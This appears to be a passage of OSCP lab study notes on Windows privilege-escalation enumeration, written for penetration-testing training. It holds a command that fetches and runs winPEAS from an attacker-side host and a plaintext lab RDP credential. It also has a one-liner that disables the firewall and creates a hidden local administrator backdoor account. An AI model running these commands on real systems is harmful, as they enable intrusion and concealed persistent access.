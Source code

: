 - Different tools such as `winPEAS`, `Seatbelt`, `PowerUp` or `JAWS`
- We can use `winPEAS` or `Seatbelt` to automate enumeration
```powershell
iwr -uri http://192.168.48.3/winPEASx64.exe -Outfile winPEAS.exe

.\winPEAS.exe

.\Seatbelt.exe -group=all
```
> [!HINT]
> To enable colors for `winPEAS` we need to add a registry key `REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1` and restart the cmd.
# RDP Access
- It can be easier to perform enumeration if we have access to RDP. In case the necessary prerequisites are given, we can use `xfreedrp3` to establish an RDP session
```zsh
xfreerdp3 /u:stephanie /d:corp.com /p:"LegmanTeamBenzoin\!\!" /v:192.168.124.75 /dynamic-resolution /drive:alexa,/home/redo/Documents/oscp/exercises/ActiveDirectory
```
> [!IMPORTANT]
> We have to escape any `zsh` specific characters within passwords or username such as !,$
- If RDP is not enabled, we can enable it using those steps
```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f 


netsh advfirewall set allprofiles state off

net user /add alexa init12345 && net localgroup administrators alexa /add & net localgroup "Remote Desktop Users" alexa /add & netsh advfirewall firewall set rule group="remote desktop" new enable=Yes & reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v alexa /t REG_DWORD /d 0 & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f & sc config TermService start= auto

```
# Leveraging Windows Services

## Enumeration
- We can use the GUI snap-in `services.msc`, `Get-Service`, `tasklist`, `sc` or `Get-CimInstance` to enumerate services
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

tasklist /SVC

wmic service get name,displayname,pathname,startmode

wmic service where caption="Servicename" get name, state, startmode

sc qc SomeService
```
> [!WARNING]
> When using a network logon such as WinRM or a bind shell, Get-CimInstance and Get-Service will result in a "permission denied" error when querying for services with a non-administrative user. Using an interactive logon such as RDP solves this problem.
